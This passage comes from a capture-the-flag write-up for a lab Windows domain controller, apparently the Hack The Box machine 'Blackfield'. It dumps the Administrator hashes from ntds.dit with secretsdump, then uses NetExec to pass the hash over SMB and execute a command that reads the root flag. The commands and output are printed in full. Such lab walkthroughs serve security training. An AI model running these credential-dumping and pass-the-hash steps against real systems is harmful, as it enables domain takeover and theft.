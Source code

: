 Now the `Administrator` hash can be easily dumped which let us compromise the `root.txt` file:

```bash
# dump the administrator hash
$ secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Admin
Administrator:500:aad3b435b51404eeaad3b435b51404ee:18<REDACTED>ee:::
Administrator:aes256-cts-hmac-sha1-96:dbd84e6cf174af55675b4927ef9127a12aade143018c78fbbe568d394188f21f
Administrator:aes128-cts-hmac-sha1-96:8148b9b39b270c22aaa74476c63ef223
Administrator:des-cbc-md5:5d25a84ac8c229c1

# compromise the root.txt file
$ nxc smb 10.10.10.192 -u administrator -H 18<REDACTED>ee -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\administrator:18<REDACTED>ee (Pwn3d!)
SMB         10.10.10.192    445    DC01             [+] Executed command via wmiexec
SMB         10.10.10.192    445    DC01             43<REDACTED>cb
```
